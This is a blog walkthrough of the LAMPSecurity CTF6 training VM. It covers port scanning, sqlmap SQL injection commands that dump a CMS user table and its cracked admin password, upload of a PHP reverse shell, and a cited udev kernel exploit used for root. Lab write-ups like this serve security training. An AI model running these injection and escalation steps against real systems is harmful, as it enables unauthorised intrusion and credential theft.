```yaml
---
layout: blog_item
title:  "LAMP Security CTF6 - Walkthrough"
date:   2014-03-04 19:40:60
author: Arr0way
description: 'LAMP Security CTF 6 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com)

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the <b>web application</b> as the entry point.</p>
</div>

## Enumeration

### Host Service Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.131

{% endhighlight %}

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 110</code></p></pc>
           </td>
           <td>
              <pc><p>pop3</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>rpcbind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 143</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 621</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 993</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 995</code></p></pc>
           </td>
           <td>
              <pc><p>POP3 SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP:3306 </code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL 5.0.45</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Web Application Enumeration

Inspection of the Web Application indicated it was vulnerable to SQL injection.



## SQLMap - SQL Injection

SQLMap confirmed [SQL injection](/penetration-testing/web-app/sql-injection/)) was possible.

{% highlight bash %}
[ root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms --dbs

available databases [5]:
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
{% endhighlight %}

SQLMap form enumeration:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
--tables

Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+
{% endhighlight %}

SQLMap database dump + admin account hash cracked:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
-T user --dump

Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------------------+
| user_id | user_username | user_password                                |
+---------+---------------+----------------------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 (adminpass) |
+---------+---------------+----------------------------------------------+
{% endhighlight %}

## Web Application Exploitation

Using the previously discovered admin account credentials, it was possible to login to the web application and upload a php reverse shell using an image upload form.

![PHP Web Shell Upload](/img/blog/ctf6/webshell.png)

## Local Privilege Escalation

A successful reverse shell was establish and the kernel appeared to be
vulnerable to a well know [Linux 2.6 kernel udev
exploit](https://www.exploit-db.com/exploits/8478/).

{% highlight bash %}
sh-3.2$ uname -ar
Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008
i686 i686 i386 GNU/Linux
{% endhighlight %}

The exploit requires the PID for the udev process, the exploit does not work
flawlessly as you can see below it may take several attempts to get a root
shell.

![Exploit Process UDEV PID](/img/blog/ctf6/exploit-process-udev-pid.png)

Thanks for the VM :)
